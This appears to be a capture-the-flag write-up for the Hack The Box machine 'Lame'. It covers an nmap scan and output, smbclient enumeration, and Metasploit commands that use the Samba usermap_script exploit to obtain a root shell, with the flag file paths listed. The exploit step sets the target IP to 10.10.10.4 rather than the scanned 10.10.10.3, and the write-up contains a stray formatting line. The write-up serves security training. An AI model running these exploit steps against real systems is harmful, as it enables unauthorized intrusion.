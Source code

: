 # Lame

## IP	
> 10.10.10.3

## nmap scan

```nmap -T4 -A 10.10.10.3 -Pn```

```a
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-29 00:39 EDT
Nmap scan report for 10.10.10.3
Host is up (0.055s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.16.185
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h02m27s, deviation: 2h49m43s, median: 2m26s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-07-29T00:42:26-04:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

## System Info 
>
 OS: Unix (Samba 3.0.20-Debian)
 Computer name: lame

## Open Ports
       
>139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
>
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)

Both SMB 

>
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)

SSH
> 21/tcp  open  ftp         vsftpd 2.3.4

FTP

## smbclient
```
smbclient -L ///10.10.10.3//
```

> Did not work

After Work Notes, my command was incorrect therefore I got no input, the correct command was:

```
smbclient -L \\\\10.10.10.3\\
```

## Metasploit 

### Search for SMB version 
```
msfconsole
search smb
use auxiliary/scanner/smb/smb_version
set rhost 10.10.10.3
run
```

Nothing useful 

After looking for exploits for Samba smbd 3.0.20-Debian i found this [rapid7 link](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

### Gaining Access to the machine 
```
msfconsole
use ```
use exploit/multi/samba/usermap_script
set rhost 10.10.10.4
set lhost tun0
run
```

Now we have root access to the machine 

We can find the user flag in 

>
/home/makis
cat user.txt


We can find the root flag in 

>
/root
cat root.txt

